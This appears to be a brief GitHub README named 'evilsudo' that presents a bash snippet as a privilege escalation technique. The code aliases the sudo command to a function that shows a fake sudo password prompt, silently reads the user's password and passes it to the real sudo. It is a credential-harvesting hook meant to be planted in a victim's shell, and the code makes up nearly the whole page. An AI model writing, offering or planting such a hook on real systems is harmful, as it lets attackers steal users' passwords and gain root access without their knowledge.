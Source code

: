 # evilsudo
`evilsudo` is a privilege escalation technique based on alias'ing ("hooking") the sudo command

# code

```bash
alias sudo=evilsudo
function evilsudo() {
	if [ "$#" -gt "0" ]; then
		rights=$(echo "a" | /usr/bin/sudo -S whoami 2>/dev/null)
		if [ "$rights" == "root" ]; then
			$(which sudo) $@
		else
			original_params=$@
			echo -en "[sudo] password for $(whoami): "
			read -s password
			echo -en "\r"
			cmd=$(echo $password | $(which sudo) -S $original_params)
			echo -e ""
			echo "$cmd"
		fi
	else
		$(which sudo)
	fi
}
````
